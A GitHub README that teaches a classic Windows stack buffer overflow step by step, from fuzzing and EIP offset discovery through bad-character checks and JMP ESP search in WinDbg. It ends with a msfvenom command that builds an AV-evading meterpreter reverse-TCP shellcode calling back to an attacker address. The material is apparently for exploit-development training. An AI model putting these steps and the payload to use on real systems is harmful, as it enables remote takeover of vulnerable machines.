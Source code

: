 # Classic-Buffer-Overflows<br/>

Python scripts needed to perform a buffer overflow from a previously known vulnerable application or proof of concept. There will also be a small description instructing how to use the files.<br/>
For this particular application I also use WinDbg to build out from the PoC to getting a meterpreter shell. <br/>
The naming covention I am using is as follows<br/>
SX[ShortDescription].py<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where SX is the step number, followed by a short description.

## S1PoCFuzz.py
This is a fuzzer that sends an arbitrary amount of data to a web based application that causes a crash.<br/>
Usage: ./S1PoCFuzz.py {IP} {Port} {Data} <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where data is an interger that represents the number of bytes that cause a crash.<br/>
<br/>
In our WinDbg debugger we see that we have overwriten every register except the ESP using the r command. <br/>
We can see what the ESP register points to by using the following command:<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dds esp<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S1Fuzz.png)<br/>

## S2FindOffset.py
This script along with our debugger will help us find offset that writes to the EIP.<br/>
First we generate an array of characters using the following command:<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;msfvenom-pattern_create l- {data}<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where data represents the number of bytes that caused the crash.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Next we make sure to send the character array to the vulnerable application.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;This is shown on line 16 of this script.<br/>
Usage ./S2FindOffset.py {IP} {Port}<br/>
<br/>
From our debugger, we see that the EIP is overwritten by 33794332
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S2EIP.png)<br/>
Next we use find the offset that will overwrite the EIP by using the following command<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;msfvenom-pattern_offset -l {data} -q {eip}<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; where -l {data} is the amount of data that caused the application to crash and -q {eip} is the area we want to overwrite.
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S2Offset.png)<br/>
## S3ChangeEIP.py
Now that we know where our EIP is, we want to verify it and find a suitable location for our reverse shell.<br/>
usage ./S3ChangeEIP.py {IP} {port} {offset}<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Where offset is the interger that obtained from the msfvenom-find_offset command<br/>
<br/>
In our WinDbg debugger we see that we have overwriten ESP with 42424242, or the hex representation of BBBB, using the r command. <br/>
We can see what the ESP register points to with the following command:<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dds esp -14 L10<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S3EIPOverwrite.png)<br/>
This command shows us that our ESP is 041dee6c.<br/>
The lines before our ESP show us that there are some 41s and some 42s.<br/>
These 42s represent our EIP, but more importantly we see that our ESP points to 44s.<br/>
This is where our shellcode will go.<br/>
By changing the value of L 10 to something higher we can see more bytes after our ESP. <br/>
It is good practice to navigate to each register to see how the application handles data. <br/>
This can be important because some applications may not have enough memory for our shellcode.<br/>
I will cover a few strategies later to overcome this limitation.<br/>
## S4BadChars.py
Before we can generate our shellcode, we have to find what characters cause our attack to fail.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Usage S4BadChars.py {IP} {Port}<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S4BadChars.png)<br/>
using the command dds esp in WinDBg we can see the character array we sent to the application.<br/>
The nullbyte character (\x00) is omitted because its very likely to cause our attack to fail.<br/>
We are looking for characters that are out of place from 01 to ff.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;An out of place character may look like 01 02 03 04 08 06 07 08<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;In this case we would return to our python script remove 05 and make a note of it.<br/>
<br/>
We are also looking for characters that truncate the character array.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Truncation looks like 97 98 99 9a 9b 9c 00 ff f3 5a<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Where 9d would need to be removed because 9c is the last character from our array.<br/>
<br/>
Fortunately, this application does not have bad characters other than 00.<br/>
However, it is very important to note what these bad characters are.<br/>
We repeat this until we verify each character in our array.<br/>
## Generating our Shellcode
Before we can generate our shellcode, we need to find a module that contains a jump instruction.<br/>
This jump instruction will help us jump to our shellcode.<br/>
To do this we will use a program called process hacker and find our vulnerable application.<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S4Modules.png)<br/>
The ideal module does not have any protection, meaning that the ASLR and CF Guard fields are blank.<br/>
When we find a potentially suitable module, we go to our debugger and find the address for our jump command.<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S4JMPESP.png)<br/>
The first command gives us the boundary of the module. This boundary limits our search scope for our jump command.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;lm m vulnapp1<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where lm list the modules and m specifies a pattern that must match our query of vulnapp1.<br/>
The seccond command helps us achieve this.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;s -b 14800000 14816000 0xff 0xe4<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;This command searches for ffe4 from 14800000 14816000 displaying the (-b)bytes.<br/>
In this case, since we are jumnping to the ESP we are searching for jmp esp which is ff e4<br/>
But a different application might require a different jump code<br/>
Which are here for your convinience. <br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S4JMPCodes.png)<br/>
Now we can generate out shellcode using the following command:<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.49.191 LPORT=443 EXITFUNC=thread -f python –e x86/shikata_ga_nai -b "\x00"<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where we use -p for the platform we are attacking and payload we are using<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;EXITFUNC=thread becuase we dont want to close the vulnerable app when we close the shell<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;-e x86/shikata_ga_nai to encode the shellcode to either evade AV or avoid bad characters<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;-b lets you specify what the bad characters are.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;This is shown below.<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S5GenerateShellcode.png)<br/>
